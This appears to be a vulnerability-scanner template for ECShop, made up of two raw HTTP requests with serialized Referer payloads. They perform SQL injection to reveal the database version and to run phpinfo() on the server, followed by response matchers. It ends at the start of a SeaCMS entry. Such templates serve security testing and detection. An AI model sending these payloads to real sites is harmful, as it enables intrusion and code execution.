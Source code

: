 - severity - critical
- tags - sqli,php,ecshop

## Requests

### Step - 1

```
GET /user.php?act=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}

```

### Step - 2

```
GET /user.php?act=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}554fcae493e564ee0dc75bdf2ebf94ca

```

### Matchers

**Type - word**

- words
  1. XPATH syntax error:
  2. [error] =>
  3. [0] => Array
  4. MySQL server error report:Array
- condition - and

**Type - word**

- words
  1. PHP Extension
  2. PHP Version
- condition - and

---

# SeaCMS 8.7 - SQL Injection

## Description
